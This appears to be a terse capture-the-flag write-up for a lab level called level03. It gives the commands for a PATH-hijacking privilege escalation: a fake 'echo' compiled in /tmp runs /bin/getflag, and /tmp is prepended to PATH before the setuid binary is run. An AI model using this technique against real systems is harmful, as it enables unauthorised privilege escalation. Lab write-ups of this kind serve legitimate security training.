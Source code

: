 # hint
dogbolt

# cmd
* ``ls -la``
    * level03 -> exe
* ``./level03``
    * Exploit me
* ``scp -P 4242 level03@10.14.200.79:level03 .`` -> dogbolt donne level03.c
* write echo.c which return ``system("/bin/getflag")`` in ``/tmp``
* in ``/tmp`` do ``gcc echo.c -o echo``
* in ``~`` do ``gcc echo.c -o echo``
* ``export PATH=/tmp:$PATH``
* ``./level03``
